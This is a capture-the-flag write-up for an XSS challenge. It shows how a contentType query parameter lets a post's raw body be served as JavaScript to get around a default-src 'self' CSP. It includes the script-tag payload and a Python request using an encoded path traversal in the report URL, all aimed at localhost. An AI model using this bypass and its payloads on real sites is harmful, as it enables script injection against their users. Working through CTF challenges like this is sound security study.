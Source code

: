 ```yaml
---
ai_date: 2025-04-27 05:19:13
ai_summary: Exploited XSS via query parameter manipulation, bypassing CSP restrictions by injecting report endpoint URL in JavaScript payload.
ai_tags:
  - xss
  - csp
  - report-uri-bypass
created: 2024-12-07T14:26
points: 191
solves: 54
updated: 2025-07-14T09:46
---
```


Note-XSS challenge, with CSP `default-src: self` and restricted report url.
## probe

- can access raw body via `/api/posts/[id]/body`
- We can change content type via `/path?contentType=text/javascript`

```ts
app.get(
    "*",
    handleAsync(async (req, res, next) => {
        const { error, data: query } = await assetsQuerySchema.safeParseAsync(req.query)
        if (!error) {
            res.header("content-type", query.contentType)
        }
...
```

It appears that `res.header` is set for every single path, as long as the query variable is set.
## csp

Using Google's CSP detector, we can see that the vulnerable CSP seems to be `default-src: self`.

How do we exploit this?

We can exploit the api endpoints to host JS files for us.

```js [payload A]
console.log("external script")
```

```html [payload B]
<script src="/api/posts/1/body?contentType=text/javascript"></script>
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733640901/2024/12/6fbd95c74bf12b3877d62659ab914a7b.png)

## xss

However to make the bot access body via `/api` directly isn't easy, I got stuck here and my teammate @T!T4N solved it.

The solution is to inject the report endpoint's url param.

```python
import requests

r = requests.post("http://localhost:3300/posts/23%2e%2e%2f%2e%2e%2f%2e%2e%2fapi%2fposts%2f21%3fcontentType=text%2fhtml/report")
print(r.text)

# http://localhost:3300/api/posts/21?contentType=text/html
```